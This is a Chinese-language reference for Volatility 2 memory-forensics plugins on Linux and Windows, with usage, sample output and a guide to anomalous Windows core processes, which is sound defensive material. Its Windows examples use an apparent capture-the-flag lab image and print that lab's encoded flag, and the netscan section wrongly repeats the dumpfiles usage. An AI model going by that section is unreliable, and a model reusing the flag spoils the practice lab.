[224.0.0.22                                ] at 01:00:5e:00:00:16    on ens33
[ff02::16                                  ] at 33:33:00:00:00:16    on ens33
[ff02::16                                  ] at 00:00:00:00:00:00    on lo
[ff02::fb                                  ] at 33:33:00:00:00:fb    on ens33
[::1                                       ] at 00:00:00:00:00:00    on lo
[ff02::1                                   ] at 33:33:00:00:00:01    on ens33
[ff02::2                                   ] at 33:33:00:00:00:02    on ens33
[ff02::1:ff11:177c                         ] at 33:33:ff:11:17:7c    on ens33
```


### linux_ifconfig

收集活动网络接口信息

```
vol2 -f ... --profile=... linux_ifconfig
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_ifconfig
```

```
Interface        IP Address           MAC Address        Promiscous Mode
---------------- -------------------- ------------------ ---------------
lo               127.0.0.1            00:00:00:00:00:00  False          
ens33            192.168.29.150       00:0c:29:21:4f:37  False          
lo               127.0.0.1            00:00:00:00:00:00  False          
```


### linux_netstat

列出打开的网络套接字

```
vol2 -f ... --profile=... linux_netstat
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_netstat
```

```
UNIX 41476              systemd/1     /run/systemd/journal/stdout
UNIX 41477              systemd/1     /run/systemd/journal/stdout
UNIX 12266              systemd/1     /run/systemd/journal/dev-log
UNIX 12275              systemd/1     /run/systemd/fsck.progress
UNIX 12277              systemd/1     /run/udev/control
UNIX 12279              systemd/1     /run/systemd/journal/syslog
UDP      127.0.0.53      :   53 0.0.0.0         :    0                   systemd-resolve/490  
TCP      127.0.0.53      :   53 0.0.0.0         :    0 LISTEN            systemd-resolve/490  
UNIX 30640                cupsd/643   
TCP      ::1             :  631 ::              :    0 LISTEN                      cupsd/643  
TCP      127.0.0.1       :  631 0.0.0.0         :    0 LISTEN                      cupsd/643  
UNIX 29951                acpid/646   /run/acpid.socket
UNIX 31377         avahi-daemon/648   
UDP      0.0.0.0         : 5353 0.0.0.0         :    0                      avahi-daemon/648  
UDP      ::              : 5353 ::              :    0                      avahi-daemon/648  
UDP      0.0.0.0         :52962 0.0.0.0         :    0                      avahi-daemon/648  
UDP      ::              :51469 ::              :    0                      avahi-daemon/648  
UNIX 30386         avahi-daemon/652   
TCP      192.168.29.150  :   22 192.168.29.1    :57386 ESTABLISHED                  sshd/2149 
UNIX 162186                sshd/2149  
TCP      192.168.29.150  :   22 192.168.29.1    :57394 ESTABLISHED                  sshd/2222 
UNIX 161708                sshd/2222  
TCP      ::1             : 6010 ::              :    0 LISTEN                       sshd/2222 
TCP      127.0.0.1       : 6010 0.0.0.0         :    0 LISTEN                       sshd/2222 
TCP      192.168.29.150  :   22 192.168.29.1    :57395 ESTABLISHED                  sshd/2224 
UNIX 162348                sshd/2224  
```


### linux_list_raw

列出使用混杂模式套接字的应用程序

```
vol2 -f ... --profile=... linux_list_raw
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_list_raw
```

```
Process          PID    File Descriptor Inode             
---------------- ------ --------------- ------------------
dhclient            766               5              34844
```


### linux_find_file

列出并恢复内存中的文件

```
vol2 -f ... --profile=... linux_find_file [options]

  -F FIND, --find=FIND  查找文件（路径）
  -i INODE, --inode=INODE
                        写入磁盘的inode
  -O OUTFILE, --outfile=OUTFILE
                        输出文件路径
  -L, --listfiles       列出内存中缓存的所有文件
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_find_file -L
```

```
Inode Number                  Inode File Path
---------------- ------------------ ---------
               2 0xffff90ee3374ad70 /run/user/1000
              33 0xffff90edb4892d70 /run/user/1000/update-notifier.pid
              27 0xffff90ee29c3c3f0 /run/user/1000/pulse
              11 0xffff90ee2cc55a70 /run/user/1000/gnupg/S.gpg-agent
              10 0xffff90ee2cc565b0 /run/user/1000/gnupg/S.gpg-agent.browser
```


### linux_enumerate_files

枚举文件系统缓存引用的文件

```
vol2 -f ... --profile=... linux_enumerate_files
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_enumerate_files
```

```
     Inode Address Inode Number              Path
------------------ ------------------------- ----
0xffff90ee3374ad70                         2 /run/user/1000
0xffff90edb4892d70                        33 /run/user/1000/update-notifier.pid
0xffff90ee29c3c3f0                        27 /run/user/1000/pulse
0xffff90ee0443f0f0                        30 /run/user/1000/pulse/native
0xffff90ee0443a230                        29 /run/user/1000/pulse/pid
0xffff90ee2ea85200                        25 /run/user/1000/gnome-shell
0xffff90ee2e89e2e0                        26 /run/user/1000/gnome-shell/runtime-state-LE.:0
```


### linux_elfs

在进程映射中查找 ELF 二进制文件

```
vol2 -f ... --profile=... linux_elfs

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_elfs
```


### linux_kernel_opened_files

列出内核打开的文件

```
vol2 -f ... --profile=... linux_kernel_opened_files
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64  linux_kernel_opened_files
```

```
Offset (V)         Partial File Path
------------------ -----------------
[无内容]
```


### linux_library_list

列出进程加载的库

```
vol2 -f ... --profile=... linux_library_list

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_library_list
```

```
Task             Pid      Load Address       Path
---------------- -------- ------------------ ----
systemd                 1 0x00007fa187840000 /lib/x86_64-linux-gnu/libm.so.6
systemd                 1 0x00007fa187bde000 /lib/x86_64-linux-gnu/libudev.so.1
systemd                 1 0x00007fa187dfc000 /lib/x86_64-linux-gnu/libgpg-error.so.0
systemd                 1 0x00007fa188011000 /lib/x86_64-linux-gnu/libjson-c.so.3
systemd                 1 0x00007fa18821c000 /usr/lib/x86_64-linux-gnu/libargon2.so.0
systemd                 1 0x00007fa188425000 /lib/x86_64-linux-gnu/libdevmapper.so.1.02.1
systemd                 1 0x00007fa188690000 /lib/x86_64-linux-gnu/libattr.so.1
systemd                 1 0x00007fa188895000 /lib/x86_64-linux-gnu/libcap-ng.so.0
```


### linux_librarydump

将进程内存中的共享库转储到磁盘

```
vol2 -f ... --profile=... linux_librarydump

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
  -D DUMP_DIR, --dump-dir=DUMP_DIR
                        输出目录
  -b BASE, --base=BASE  转储具有基地址的驱动（十六进制）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_librarydump -b 0x00007fa18821c000 -D out
```

```
Offset             Name                 Pid             Address            Output File
------------------ -------------------- --------------- ------------------ -----------
0xffff90ee38802e80 systemd              1               0x00007fa18821c000 out/systemd.1.0x7fa18821c000
```

```
file systemd.1.0x7fa18821c000

systemd.1.0x7fa18821c000: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, stripped
```


### linux_lsof

列出文件描述符及其路径

```
vol2 -f ... --profile=... linux_lsof [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
Offset             Name                           Pid      FD       Path
------------------ ------------------------------ -------- -------- ----
0xffff90ee38802e80 systemd                               1        0 /dev/null
0xffff90ee34bbc5c0 avml-x86_64                        2364        4 /root/linux_memory/capture/hil-virtual-machine-2023-09-08_11.18.30/hil-virtual-machine-2023-09-08_11.18.30-memory.lime
0xffff90ee04435d00 gpg                                2368        0 /dev/null
0xffff90ee04435d00 gpg                                2368        1 /root/nohup.out
0xffff90ee04435d00 gpg                                2368        2 /root/nohup.out
0xffff90ee04435d00 gpg                                2368        3 /root/wlaq.txt
```


### linux_memmap

转储 Linux 任务的内存映射

```
vol2 -f ... --profile=... linux_memmap [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_memmap
```

```
Task             Pid      Virtual            Physical                         Size
---------------- -------- ------------------ ------------------ ------------------
systemd                 1 0x00005604fd82a000 0x000000013a1f7000             0x1000
systemd                 1 0x00005604fd82b000 0x000000013a077000             0x1000
systemd                 1 0x00005604fd82c000 0x0000000139ff7000             0x1000
systemd                 1 0x00005604fd82d000 0x000000013a0b7000             0x1000
systemd                 1 0x00005604fd82e000 0x000000013ba37000             0x1000
```


### linux_mount

收集挂载的文件系统/设备

```
vol2 -f ... --profile=... linux_mount [options]
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_mount
```

```
Volatility Foundation Volatility Framework 2.6.1
tmpfs                     /run/user/1000                      tmpfs        rw,relatime,nosuid,nodev         
proc                      /proc                               proc         rw,relatime,nosuid,nodev,noexec   
/dev/loop7                /snap/core20/1081                   squashfs     ro,relatime,nodev                 
tracefs                   /sys/kernel/debug/tracing           tracefs      rw,relatime                       
/dev/sda1                 /                                   ext4         rw,relatime                       
tmpfs                     /sys/fs/cgroup                      tmpfs        ro,nosuid,nodev,noexec           
```


### linux_mount_cache

从 kmem_cache 收集挂载信息

```
vol2 -f ... --profile=... linux_mount_cache [options]
```


## Windows 进程

Windows系统包含许多确保其平稳运行的核心进程。本文将重点介绍以下9个关键进程：

1. **System**（系统进程）
2. **smss.exe**（会话管理器子系统）
3. **csrss.exe**（客户端/服务器运行时子系统）
4. **wininit.exe**（Windows初始化进程）
5. **winlogon.exe**（Windows登录管理器）
6. **lsass.exe**（本地安全认证子系统）
7. **services.exe**（服务控制管理器）
8. **explorer.exe**（Windows资源管理器）
9. **svchost.exe**（Windows服务宿主进程）


**Windows核心进程树**


### System Idle Process

**System Idle Process 进程（系统空闲进程）**

- **PID固定为0**，是Windows系统中唯一PID为0的进程。

- **任务管理器显示的“CPU使用率”**中，空闲进程的百分比代表当前未被利用的CPU资源（例如，显示“90%空闲”表示CPU有90%的时间处于空闲状态）。


### System

**System 进程（系统进程）**

- **进程ID（PID）**：始终为**4**。
- **功能**：管理系统级操作，包括内核操作、硬件中断处理、内存管理和资源分配。
- **父进程**：系统空闲进程（System Idle Process）。
- **子进程**：创建**smss.exe**。

**需关注的异常行为**：

- 镜像路径非`C:\Windows\system32\ntoskrnl.exe`。
- 存在多个实例（正常仅一个）。
- 父进程非系统空闲进程。


### smss.exe

**smss.exe 进程（会话管理器子系统）**

- **功能**：创建Windows会话，初始化内核与用户模式环境，并设置系统变量。
- **父进程**：System进程（PID 4）。
- **子进程**：创建**csrss.exe**、**wininit.exe**和**winlogon.exe**后自终止。

**需关注的异常行为**：

- 镜像路径非`C:\Windows\System32\smss.exe`。
- 父进程非System进程。
- 存在多个持续运行的实例。


### csrss.exe

**csrss.exe 进程（客户端/服务器运行时子系统）**

- **功能**：提供Windows API支持，管理驱动器映射及系统关机流程。
- **父进程**：smss.exe。
- **运行模式**：通常存在两个实例，分别运行于**Session 0**（系统模式）和**Session 1**（用户模式）。

**需关注的异常行为**：

- 镜像路径非`C:\Windows\System32\csrss.exe`。
- 用户账户非SYSTEM。
- 存在拼写变体（如`csrsss.exe`）以伪装恶意进程。


### wininit.exe

**wininit.exe 进程（Windows初始化进程）**

- **功能**：负责系统初始化，运行于**Session 0**。
- **父进程**：smss.exe。
- **子进程**：创建**services.exe**、**lsass.exe**和**lsaiso.exe**。

**需关注的异常行为**：

- 镜像路径非`C:\Windows\System32\wininit.exe`。
- 存在多个实例（正常仅一个）。


### services.exe

**services.exe 进程（服务控制管理器）**

- **功能**：管理Windows服务的启动、停止和交互。
- **父进程**：wininit.exe。
- **子进程**：创建**svchost.exe**、**spoolsv.exe**等。

**需关注的异常行为**：

- 镜像路径非`C:\Windows\System32\services.exe`。
- 父进程非wininit.exe。


### svchost.exe

**svchost.exe 进程（Windows服务宿主进程）**

- **功能**：以动态链接库（DLL）形式托管和管理Windows服务。
- **父进程**：services.exe。
- **子进程**：包括**taskhostw.exe**、**runtimebroker.exe**等。

**需关注的异常行为**：

- 镜像路径非`C:\Windows\System32\svchost.exe`。
- 命令行缺少`-k`参数（如`-k DoomLaunch`）。


### lsass.exe

**lsass.exe 进程（本地安全认证子系统）**

- **功能**：执行安全策略，生成SAM（安全账户管理器）、AD（活动目录）和NETLOGON的安全令牌。
- **父进程**：wininit.exe。
- **攻击目标**：常被工具如Mimikatz用于凭据窃取。

**需关注的异常行为**：

- 镜像路径非`C:\Windows\System32\lsass.exe`。
- 存在拼写变体（如`lsasss.exe`）以伪装恶意进程。


### winlogon.exe

**winlogon.exe 进程（Windows登录管理器）**

- **功能**：管理用户登录，加载用户配置文件（NTUSER.DAT）和用户界面（通过userinit.exe）。
- **父进程**：smss.exe。
- **子进程**：创建**userinit.exe**（随后自终止并生成explorer.exe）。

**需关注的异常行为**：

- 注册表中Shell值非`explorer.exe`。
- 用户账户非SYSTEM。


### explorer.exe

**explorer.exe 进程（Windows资源管理器）**

- **功能**：提供图形用户界面（GUI），包括文件管理、开始菜单和任务栏。
- **父进程**：userinit.exe。
- **特殊性**：唯一直接位于系统根目录的进程。

**需关注的异常行为**：

- 镜像路径非`C:\Windows\explorer.exe`。
- 存在异常外联TCP/IP连接。


## windows


### pslist

通过 EPROCESS 列表列出所有运行中的进程

```
vol2 -f ... --profile=... pslist [options]

  -o OFFSET, --offset=OFFSET
                        指定物理地址空间中 EPROCESS 结构的偏移量（十六进制）
  -p PID, --pid=PID     设置目标进程 ID 列表（逗号分隔）
  -n NAME, --name=NAME  设置目标进程名称匹配规则（支持正则表达式）
  -P, --physical-offset
                        显示物理偏移量替代虚拟地址
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 pslist
```


### psscan

进程对象的池扫描器

```
vol2 -f ... --profile=... psscan [options]

  -V, --virtual         扫描虚拟空间而非物理空间
  -W, --show-unallocated
                        跳过未分配对象（例如 0xbad0b0b0）
  -A START, --start=START
                        指定扫描操作的起始地址
  -G LENGTH, --length=LENGTH
                        设置从起始地址扫描的字节长度（单位：字节）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 psscan
```


### pstree

以树状列出进程

```
vol2 -f ... --profile=... pstree [options]
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 pstree
```


### psxview

通过多进程列表发现隐藏进程

```
vol2 -f ... --profile=... psxview [options]

  -P, --physical-offset
                        物理偏移量
  -R, --apply-rules
                        应用已知有效规则
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 psxview
```


### envars

显示进程环境变量

```
vol2 -f ... --profile=... envars [options]

  -o OFFSET, --offset=OFFSET
                        指定物理地址空间中 EPROCESS 结构的偏移量（十六进制）
  -p PID, --pid=PID     设置目标进程 ID 列表（逗号分隔）
  -n NAME, --name=NAME  设置目标进程名称匹配规则（支持正则表达式）
  -s, --silent          隐藏常见及非持久化变量
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 envars
```

```
Pid      Process              Block              Variable                       Value
-------- -------------------- ------------------ ------------------------------ -----
     248 smss.exe             0x00000000004a1320 Path                           C:\Windows\System32
     248 smss.exe             0x00000000004a1320 SystemDrive                    C:
     248 smss.exe             0x00000000004a1320 SystemRoot                     C:\Windows
     320 csrss.exe            0x00000000002d1320 ComSpec                        C:\Windows\system32\cmd.exe
     320 csrss.exe            0x00000000002d1320 FP_NO_HOST_CHECK               NO
     320 csrss.exe            0x00000000002d1320 NUMBER_OF_PROCESSORS           1
     320 csrss.exe            0x00000000002d1320 OS                             Windows_NT
```


### shimcache

 解析应用兼容性 Shim 缓存注册表项

```
vol2 -f ... --profile=...  shimcache
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 shimcache
```

```
Last Modified                  Path
------------------------------ ----
2010-11-21 03:24:09 UTC+0000   \??\C:\Windows\system32\LogonUI.exe
2009-07-14 01:39:37 UTC+0000   \??\C:\Windows\system32\SearchFilterHost.exe
2009-07-14 01:39:37 UTC+0000   \??\C:\Windows\system32\SearchProtocolHost.exe
2009-07-14 01:39:06 UTC+0000   \??\C:\Windows\system32\DllHost.exe
2010-11-21 03:24:03 UTC+0000   \??\C:\Windows\System32\usercpl.dll
2009-07-14 01:38:52 UTC+0000   \??\C:\Windows\System32\wscui.cpl
2009-07-14 01:14:18 UTC+0000   \??\C:\Windows\SysWOW64\DllHost.exe
```


### dlllist

列出进程加载的 DLL

```
vol2 -f ... --profile=... dlllist [options]

  -o OFFSET, --offset=OFFSET
                        指定物理地址空间中 EPROCESS 结构的偏移量（十六进制）
  -p PID, --pid=PID     设置目标进程 ID 列表（逗号分隔）
  -n NAME, --name=NAME  设置目标进程名称匹配规则（支持正则表达式）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 dlllist -p 796
```


### dlldump

从进程地址空间转储 DLL

```
vol2 -f ... --profile=... dlldump [options]

  -p PID, --pid=PID      指定目标进程ID集合（逗号分隔）
  -n NAME, --name=NAME   正则匹配目标进程名称
  -D DIR, --dump-dir=DIR
                         设置可执行文件转存储目录
  -u, --unsafe          禁用内存完整性校验（危险模式）
  -m, --memory          按内存原始布局提取（非PE文件结构）
  -x, --fix             将转储镜像基址同步为内存实际基址
  -r REGEX, --regex=REGEX
                         按正则表达式筛选转储DLL
  -i, --ignore-case     启用正则表达式大小写不敏感模式
  -o OFFSET, --offset=OFFSET
                         基于物理内存偏移量提取进程DLL
  -b BASE, --base=BASE   基于虚拟地址空间基址提取进程DLL
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 dlldump -p 796 -D out
```




### procdump

转储进程的可执行文件

```
vol2 -f ... --profile=... procdump [options]

  -o OFFSET, --offset=OFFSET
                        指定物理地址空间中 EPROCESS 结构的偏移量（十六进制）
  -p PID, --pid=PID     设置目标进程 ID 列表（逗号分隔）
  -n NAME, --name=NAME  设置目标进程名称匹配规则（支持正则表达式）
  -D DUMP_DIR, --dump-dir=DUMP_DIR
                        设置可执行文件转储目录
  -u, --unsafe          绕过完整性检查以创建内存镜像
  -m, --memory          按内存样本格式转储（非可执行/磁盘格式）
  -x, --fix             修正转储镜像基址至内存基地址
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 procdump -p 796 -D out

Process(V)         ImageBase          Name                 Result
------------------ ------------------ -------------------- ------
0xfffffa8001048060 0x0000000001340000 DumpIt.exe           OK: executable.796.exe

```

```
file executable.796.exe

executable.796.exe: PE32 executable (console) Intel 80386, for MS Windows, 5 sections
```


### memdump

转储进程内存到文件

```
vol2 -f ... --profile=... memdump [options]

  -o OFFSET, --offset=OFFSET
                        指定物理地址空间中 EPROCESS 结构的偏移量（十六进制）
  -p PID, --pid=PID     设置目标进程 ID 列表（逗号分隔）
  -n NAME, --name=NAME  设置目标进程名称匹配规则（支持正则表达式）
  -D DUMP_DIR, --dump-dir=DUMP_DIR
                        设置内存转储目录
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 memdump -p 1512 -D out
```

```
************************************************************************
Writing WinRAR.exe [  1512] to 1512.dmp
```


### cmdline

显示进程命令行参数

```
vol2 -f ... --profile=... cmdline [options]

  -o OFFSET, --offset=OFFSET
                        指定物理地址空间中 EPROCESS 结构的偏移量（十六进制）
  -p PID, --pid=PID     设置目标进程 ID 列表（逗号分隔）
  -n NAME, --name=NAME  设置目标进程名称匹配规则（支持正则表达式）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 cmdline
```

```
************************************************************************
System pid:      4
************************************************************************
smss.exe pid:    248
Command line : \SystemRoot\System32\smss.exe
************************************************************************
csrss.exe pid:    320
Command line : %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
************************************************************************
```


### cmdscan

通过扫描 _COMMAND_HISTORY 提取命令历史

```
vol2 -f ... --profile=... cmdscan [options]

  -M 50, --max_history=50
                        设置历史命令最大数量（默认值：50）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 cmdscan
```

```
**************************************************
CommandProcess: conhost.exe Pid: 2692
CommandHistory: 0x1fe9c0 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 1 LastAdded: 0 LastDisplayed: 0
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
Cmd #0 @ 0x1de3c0: St4G3$1
Cmd #15 @ 0x1c0158:  
Cmd #16 @ 0x1fdb30:  
**************************************************
CommandProcess: conhost.exe Pid: 2260
CommandHistory: 0x38ea90 Application: DumpIt.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
Cmd #15 @ 0x350158: 8
Cmd #16 @ 0x38dc00: 8
```


### consoles

通过扫描 _CONSOLE_INFORMATION 提取控制台信息

```
vol2 -f ... --profile=... consoles [options]

  -M 50, --max_history=50
                        设置历史命令最大数量（默认值：50）
  -B 4, --history_buffers=4
                        设置历史缓冲区最大数量（默认值：4）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 consoles
```

```
**************************************************
ConsoleProcess: conhost.exe Pid: 2692
Console: 0xff756200 CommandHistorySize: 50
HistoryBufferCount: 1 HistoryBufferMax: 4
OriginalTitle: %SystemRoot%\system32\cmd.exe
Title: C:\Windows\system32\cmd.exe - St4G3$1
AttachedProcess: cmd.exe Pid: 1984 Handle: 0x60
----
CommandHistory: 0x1fe9c0 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 1 LastAdded: 0 LastDisplayed: 0
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
Cmd #0 at 0x1de3c0: St4G3$1
----
Screen 0x1e0f70 X:80 Y:300
Dump:
Microsoft Windows [Version 6.1.7601]                                            
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                 
                                                                                
C:\Users\SmartNet>St4G3$1                                                       
ZmxhZ3t0aDFzXzFzX3RoM18xc3Rfc3Q0ZzMhIX0=                                        
Press any key to continue . . .                                                 
**************************************************
ConsoleProcess: conhost.exe Pid: 2260
Console: 0xff756200 CommandHistorySize: 50
HistoryBufferCount: 1 HistoryBufferMax: 4
OriginalTitle: C:\Users\SmartNet\Downloads\DumpIt\DumpIt.exe
Title: C:\Users\SmartNet\Downloads\DumpIt\DumpIt.exe
AttachedProcess: DumpIt.exe Pid: 796 Handle: 0x60
----
CommandHistory: 0x38ea90 Application: DumpIt.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
----
Screen 0x371050 X:80 Y:300
Dump:
  DumpIt - v1.3.2.20110401 - One click memory memory dumper                     
  Copyright (c) 2007 - 2011, Matthieu Suiche <http://www.msuiche.net>           
  Copyright (c) 2010 - 2011, MoonSols <http://www.moonsols.com>                 
                                                                                
                                                                                
    Address space size:        1073676288 bytes (   1023 Mb)                    
    Free space size:          24185389056 bytes (  23064 Mb)                    
                                                                                
    * Destination = \??\C:\Users\SmartNet\Downloads\DumpIt\SMARTNET-PC-20191211-
143755.raw                                                                      
                                                                                
    --> Are you sure you want to continue? [y/n] y                              
    + Processing...                                                             
```


### filescan

文件对象的池扫描器

```
vol2 -f ... --profile=... filescan [options]

  -V, --virtual         扫描虚拟空间而非物理空间
  -W, --show-unallocated
                        跳过未分配对象（例如 0xbad0b0b0）
  -A START, --start=START
                        指定扫描起始地址
  -G LENGTH, --length=LENGTH
                        设置从起始地址开始扫描的字节长度
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 filescan
```

```
Offset(P)            #Ptr   #Hnd Access Name
------------------ ------ ------ ------ ----
0x000000003e801310      2      1 ------ \Device\NamedPipe\MsFteWds
0x000000003e809610      9      0 R--r-d \Device\HarddiskVolume2\Windows\System32\dot3api.dll
0x000000003e80b9f0      2      1 ------ \Device\Afd\Endpoint
0x000000003e80bf20      2      1 ------ \Device\Afd\Endpoint
0x000000003e80c070      9      0 R--r-d \Device\HarddiskVolume2\Windows\System32\eappcfg.dll
0x000000003e80fb00     15      0 R--r-d \Device\HarddiskVolume2\Windows\ehome\ehepgres.dll
0x000000003e8105e0      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Links\desktop.ini
0x000000003e811220      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Favorites\desktop.ini
0x000000003e811370      1      0 R--rwd \Device\HarddiskVolume2\Users\Alissa Simpson\Downloads\desktop.ini
```


### dumpfiles

提取内存映射和缓存文件

```
vol2 -f ... --profile=...  dumpfiles [options]

  -r REGEX, --regex=REGEX
                        转储匹配正则表达式的文件
  -i, --ignore-case     忽略模式匹配大小写
  -o OFFSET, --offset=OFFSET
                        转储物理地址偏移量对应进程的文件
  -Q PHYSOFFSET, --physoffset=PHYSOFFSET
                        转储指定物理地址的文件对象（逗号分隔）
  -D DUMP_DIR, --dump-dir=DUMP_DIR
                        设置文件提取转储目录
  -S SUMMARY_FILE, --summary-file=SUMMARY_FILE
                        指	定摘要信息存储文件路径
  -p PID, --pid=PID     设置目标进程 ID 列表（逗号分隔）
  -n, --name            在输出路径中包含提取文件名
  -u, --unsafe          解除安全限制以获取更多数据
  -F FILTER, --filter=FILTER
                        设置应用过滤器（逗号分隔），可选值：
                            SharedCacheMap,DataSectionObject,ImageSectionObject,HandleTable,VAD
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000003fa3ebc0 -D out

DataSectionObject 0x3fa3ebc0   None   \Device\HarddiskVolume2\Users\Alissa Simpson\Documents\Important.rar
```

```
file file.None.0xfffffa8001034450.dat

file.None.0xfffffa8001034450.dat: RAR archive data, v5
```


### netscan

扫描网络连接（Vista+ 系统）

```
vol2 -f ... --profile=...  dumpfiles [options]

  -V, --virtual         扫描虚拟空间而非物理空间
  -W, --show-unallocated
                        跳过未分配对象（例如 0xbad0b0b0）
  -A START, --start=START
                        指定扫描起始地址
  -G LENGTH, --length=LENGTH
                        设置从起始地址扫描的字节长度（单位：字节）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 netscan
```




示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000003fa3ebc0 -D out
```

```
file file.None.0xfffffa8001034450.dat

file.None.0xfffffa8001034450.dat: RAR archive data, v5
```


### hivelist

打印注册表配置单元列表

```
vol2 -f ... --profile=... hivelist [options]

  -V, --virtual        启用虚拟地址空间扫描模式（替代物理内存扫描）
  -W, --show-unallocated
                       跳过标记为未分配的内存区域（如0xbad0b0b0）
  -A ADDR, --start=ADDR
                       设置内存扫描起始地址（虚拟/物理地址空间）
  -G LEN, --length=LEN 定义连续扫描的内存区间长度（单位：字节）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 hivelist
```

```
Virtual            Physical           Name
------------------ ------------------ ----
0xfffff8a00000d010 0x000000002783f010 [no name]
0xfffff8a000024010 0x00000000276a4010 \REGISTRY\MACHINE\SYSTEM
0xfffff8a00004e010 0x00000000276ce010 \REGISTRY\MACHINE\HARDWARE
0xfffff8a0000b9010 0x0000000037113010 \??\C:\Users\SmartNet\AppData\Local\Microsoft\Windows\UsrClass.dat
```


### hivescan

注册表配置单元的池扫描器

```
vol2 -f ... --profile=... hivescan

-V, --virtual         扫描虚拟空间而非物理空间
-W, --show-unallocated
                     跳过未分配对象（例如 0xbad0b0b0）
-A START, --start=START
                     指定开始扫描的起始地址
-G LENGTH, --length=LENGTH
                     从起始地址开始扫描的字节长度
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 hivescan
```

```
Offset(P)         
------------------
0x000000000b296010
0x00000000123d0010
0x000000001c9a4010
0x000000001cd57410
```


### hivedump

打印注册表配置单元内容

```
vol2 -f ... --profile=... hivedump -o ...

-o HIVE_OFFSET, --hive-offset=HIVE_OFFSET
                      注册表配置单元偏移量（虚拟）
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 hivedump -o 0xfffff8a0000b9010
```

```
Last Written         Key
2019-12-10 15:05:19 UTC+0000 \S-1-5-21-3073570648-3149397540-2269648332-1001_Classes
2019-12-10 15:05:19 UTC+0000 \S-1-5-21-3073570648-3149397540-2269648332-1001_Classes\.htm
2019-12-10 15:05:19 UTC+0000 \S-1-5-21-3073570648-3149397540-2269648332-1001_Classes\.html
2019-12-10 15:05:19 UTC+0000 \S-1-5-21-3073570648-3149397540-2269648332-1001_Classes\.oga
```


### printkey

打印注册表键及其子键和值

```
vol2 -f ... --profile=... printkey -o ...

-V, --virtual         扫描虚拟空间而非物理空间
-W, --show-unallocated
                     跳过未分配对象（例如 0xbad0b0b0）
-A START, --start=START
                     指定开始扫描的起始地址
-G LENGTH, --length=LENGTH
                     从起始地址开始扫描的字节长度
-o HIVE_OFFSET, --hive-offset=HIVE_OFFSET
                     注册表配置单元偏移量（虚拟）
-K KEY, --key=KEY    指定要操作的注册表项
```


示例

```
vol2 -f MemoryDump_Lab1.raw --profile=Win7SP1x64 printkey -o 0xfffff8a0000b9010
```

```
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \??\C:\Users\SmartNet\AppData\Local\Microsoft\Windows\UsrClass.dat
Key name: S-1-5-21-3073570648-3149397540-2269648332-1001_Classes (S)
Last updated: 2019-12-10 15:05:19 UTC+0000

Subkeys:
  (S) .htm
  (S) .html
  (S) .oga
  (S) .ogg
  (S) .ogv
  (S) .pdf
  (S) .shtml
  (S) .svg
  (S) .webm
  (S) .xht
  (S) .xhtml
  (S) FirefoxHTML-771EB45391718800
  (S) FirefoxURL-771EB45391718800
  (S) ftp
  (S) http
  (S) https
  (S) Local Settings

Values:
```


### sessions

列出用户登录会话（_MM_SESSION_SPACE）详细信息

```
